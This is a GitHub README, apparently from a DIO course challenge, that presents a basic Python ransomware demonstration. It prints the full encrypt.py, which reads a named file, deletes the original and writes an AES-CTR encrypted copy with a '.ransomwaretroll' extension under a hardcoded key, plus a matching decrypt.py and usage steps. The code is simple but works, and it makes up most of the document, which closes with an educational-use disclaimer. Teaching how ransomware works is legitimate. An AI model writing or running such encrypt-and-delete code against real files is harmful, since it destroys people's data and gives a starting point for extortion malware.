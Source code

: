 DIO Platform Ransomware Challenge Repository
This repository is dedicated to the DIO Platform Ransomware Challenge, showcasing a basic implementation of ransomware encryption and decryption using Python.

Description
The challenge presents a simple ransomware script written in Python utilizing the pyaes library for encryption and decryption tasks. It encrypts a specified file with a hardcoded key and saves the encrypted data in a new file with a '.ransomwaretroll' extension. The decryption script reverses this process, decrypting the encrypted file and restoring it to its original state.

Usage
Encryption
To encrypt a file, execute the encrypt.py script with the following command:

bash
Copy code
python encrypt.py
Replace "teste.txt" with the name of the file you wish to encrypt.

Decryption
To decrypt a file encrypted by the ransomware, execute the decrypt.py script with the following command:

bash
Copy code
python decrypt.py
Replace "teste.txt.ransomwaretroll" with the name of the encrypted file you want to decrypt.

Code
Encryption Script (encrypt.py)
python
Copy code
import os
import pyaes

# Open the file to be encrypted
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the original file
os.remove(file_name)

# Encryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Encrypt the file
crypto_data = aes.encrypt(file_data)

# Save the encrypted file
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
Decryption Script (decrypt.py)
python
Copy code
import os
import pyaes

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the encrypted file
os.remove(file_name)

# Decryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypted_data = aes.decrypt(file_data)

# Save the decrypted file
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypted_data)
new_file.close()
Disclaimer
This code is intended for educational purposes only. Engaging in ransomware activities is illegal and unethical. Please use this knowledge responsibly and refrain from any malicious activities.
